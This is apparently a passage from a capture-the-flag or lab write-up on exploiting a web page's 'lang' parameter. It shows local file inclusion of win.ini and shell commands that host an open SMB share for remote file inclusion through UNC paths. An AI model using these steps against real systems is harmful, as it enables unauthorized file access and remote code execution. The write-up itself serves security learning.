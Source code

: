 Going to `/blog`, we see a `lang` parameter in the URL. Testing for LFI, if we put `\windows\win.ini`, the page loads and we can see the file in the code.

![](../assets/Pasted%20image%2020250612104147.png)

Trying an RFI UNC attack, we could try to capture the user hash by trying to connect to an `impacket-smbserver`, but it doesn't work, so we can try `net usershare` to host an SMB share and execute files.

```shell
$ service smbd start   
# important to create the share outside user homes
$ cd /srv
$ mkdir share
$ cd share
$ sudo net usershare add test $(pwd) '' 'Everyone:F' guest_ok=y
```

Then from the webpage, we can read an `info.php`, for example.
